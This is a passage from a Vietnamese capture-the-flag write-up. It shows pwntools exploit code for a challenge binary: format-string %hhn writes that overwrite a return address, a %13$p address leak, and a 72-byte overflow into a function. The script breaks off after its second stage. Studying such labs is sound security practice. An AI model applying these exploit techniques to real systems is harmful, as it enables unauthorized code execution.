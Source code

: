 **cuối cùng ta ow rip thành địa chỉ hàm exit_f tương tư như trên là xong:**


```python=

################################
### Stage 5: ow ret = exit_f ###
#################################

exit_f = exe.sym['exit_f'] + 5

for i in range(0,6):
    payload = f"%{exit_f & 0xff}c%8$hhn".encode().ljust(16, b"\0")
    payload += p64(ret) 
    p.sendlineafter(b'phai lam gi day?????\n', payload )
    exit_f = exit_f >> 8
    ret += 1
    log.info("exit_f: " + hex(exit_f))


p.sendlineafter(b'phai lam gi day?????\n', b"a"*15 ) # à tại đây nhập quá 12byte để out vòng lặp qua return nha
```

lấy được shell rồi nè :

![image](https://github.com/gookoosss/CTF.-/assets/128712571/e0e2190c-c2f0-4aa4-af63-36663e7aa565)


**script:**

```python 

from pwn import *

p = process('./chall_patched')
exe = ELF('./chall_patched')
libc = ELF('./libc6_2.35-0ubuntu3.1_amd64.so')

gdb.attach(p, gdbscript = '''
b*main+76
b*main+140
b*fmt+61
c
''')

input()

##################################
### Stage 1: leak exe  address ###
##################################

p.sendafter(b'ret2win or fmt\n', b'%13$p') 
exe_leak = int(p.recvline()[:-6], 16)
exe.address = exe_leak - 0x1160
log.info("exe leak: " + hex(exe_leak))
log.info("exe base: " + hex(exe.address))

##################################
### Stage 2: ret2win fmt       ###
##################################

payload = b'a'*72
payload += p64(exe.sym['fmt'] + 5)
p.send(payload)

##################################
```